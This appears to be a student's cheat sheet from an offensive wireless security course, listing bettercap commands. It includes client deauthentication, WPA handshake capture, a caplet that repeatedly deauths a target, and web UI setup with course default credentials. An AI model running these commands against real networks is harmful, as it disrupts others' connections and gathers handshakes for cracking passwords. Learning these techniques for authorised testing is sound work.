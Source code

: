```

#Deauthenticating a Client (will deauth every client if the mac address is for the AP)
wifi.deauth c6:2d:56:2a:53:f8

#capturing handshakes
wifi.recon off
get wifi.handshakes.file 
set wifi.handshakes.file "/home/kali/handshakes/"
set wifi.handshakes.aggregate false
wifi.recon on
wifi.deauth c6:2d:56:2a:53:f8

#deauth filter
set wifi.deauth.skip ac:22:0b:28:fd:22
```
### bettercap Caplets
```
cd /usr/share/bettercap/caplets/
cat -n massdeauth.cap

cat -n deauth_corp.cap
set $ {br}{fw}{net.received.human} - {env.iface.name}{reset} » {reset}

set ticker.period 10
set ticker.commands clear; wifi.show; events.show; wifi.deauth c6:2d:56:2a:53:f8

events.ignore wifi.ap.new
events.ignore wifi.client.probe
events.ignore wifi.client.new

wifi.recon on
ticker on
events.clear
clear
```
```
sudo bettercap -iface wlan0 -caplet deauth_corp.cap
```
### bettercap Web Interface
```
sudo nft add table inet filter
sudo nft add chain inet filter INPUT { type filter hook input priority 0\; policy drop\; }
sudo nft add rule inet filter INPUT ip saddr 192.168.62.192 tcp dport 443 accept
sudo nft add rule inet filter INPUT ip saddr 192.168.62.192 tcp dport 8083 accept

cat -n /usr/share/bettercap/caplets/https-ui.cap
 1	# api listening on https://0.0.0.0:8083/ and ui on https://0.0.0.0
 2	set api.rest.address 0.0.0.0
 3	set api.rest.port 8083
 4	set https.server.address 0.0.0.0
 5	set https.server.port 443
 6
 7	# make sure both use the same https certificate so api requests won't fail
 8	set https.server.certificate ~/.bettercap-https.cert.pem
 9	set https.server.key ~/.bettercap-https.key.pem
10	set api.rest.certificate ~/.bettercap-https.cert.pem
11	set api.rest.key ~/.bettercap-https.key.pem
12	# default installation path of the ui
13	set https.server.path /usr/share/bettercap/ui
14
15	# !!! CHANGE THESE !!!
16	set api.rest.username offsec
17	set api.rest.password wifu
```